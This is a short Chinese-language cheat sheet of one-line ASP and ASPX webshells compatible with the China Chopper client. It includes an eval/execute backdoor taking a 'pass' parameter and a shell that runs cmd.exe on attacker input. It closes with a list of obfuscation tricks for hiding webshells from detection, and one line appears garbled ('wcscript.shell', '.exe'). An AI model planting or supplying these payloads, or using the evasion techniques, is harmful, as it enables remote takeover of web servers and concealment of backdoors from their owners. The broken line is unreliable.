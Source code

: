 菜刀可连接的webshell

```asp
<%eval request("pass")%>

<%execute request("pass")%>

<%execute(request('pass'))%>

<%executeGlobal request('pass')%>

<%eval(Request(chr(35)))%>   //ascii码
```

可执行系统目录的webshell

<%response.write server.createobject("wcscript.shell").exe("cmd.exe /c" &request("cmd")).stdout.readall%)

#### aspx

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>

<%@ Page Language="Jscript"% validateRequest="false" %><%Request.Write(eval(Request.Item["pass"],"unsafe"));%>
```



webshell变形

1. 使用str_replace()函数替换内容

   str_replace(arg1,arg2,arg3);第三个参数中的含第一个参数改为第二个参数

2. base64_decode()函数  进行64编码

3. 使用.操作符拼接

4. 更换数据来源

5. 使用短标签

6. 字符串组合隐藏关键字
